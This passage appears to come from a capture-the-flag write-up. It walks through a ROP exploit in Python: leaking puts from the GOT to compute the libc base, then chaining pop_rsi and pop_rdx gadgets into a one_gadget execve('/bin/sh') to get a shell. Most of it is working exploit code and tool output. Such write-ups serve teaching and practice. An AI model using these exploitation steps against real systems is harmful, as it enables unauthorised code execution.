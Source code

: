 ```python
# address of puts in main
loop = 0x130d + base

puts_got = 0x3fa0 + base

print("puts_got", hex(puts_got))

payload = b"A" * 16 + p64(pop_rdi) + p64(puts_got) + p64(loop)

io.sendline(payload)

puts = io.readline()[:-1].ljust(8, b"\x00")
print("puts", puts)

puts = u64(puts)

libc_base = puts - 0x625a0 - 0x25000
print("libc_base", hex(libc_base))
```

With the knowledge of the `libc` base address we can work on getting a shell.
I simply used `one_gagdet` here:
```
$ one_gadget ./libc.so.6
0xe6e73 execve("/bin/sh", r10, r12)
constraints:
  [r10] == NULL || r10 == NULL
  [r12] == NULL || r12 == NULL

0xe6e76 execve("/bin/sh", r10, rdx)
constraints:
  [r10] == NULL || r10 == NULL
  [rdx] == NULL || rdx == NULL

0xe6e79 execve("/bin/sh", rsi, rdx)
constraints:
  [rsi] == NULL || rsi == NULL
  [rdx] == NULL || rdx == NULL
```

Sadly these constraints are not satisfied so we have to do a little manual grooming, setting relevant registers to zero.
I simply chose the last one here.
Therefor we need two more gadgets to set `%rsi` and `%rdx`.
We can use ropper once again and will find them very quickly in `libc.so.6`.

The second part of the exploit may look like this now:
```python
gadget = libc_base + 0xe6e79
print("gadget", hex(gadget))

pop_rsi = 0x0000000000027529 + libc_base
pop_rdx_pop_r12 = 0x000000000011c371 + libc_base

io.readline()
io.readline()

padding = b"B" * 8 + p64(base + 0x4000 + 0x78)
payload = padding + \
    p64(pop_rsi) + \
    p64(0) + \
    p64(pop_rdx_pop_r12) + \
    p64(0) + p64(0) + \
    p64(gadget)
io.sendline(payload)
```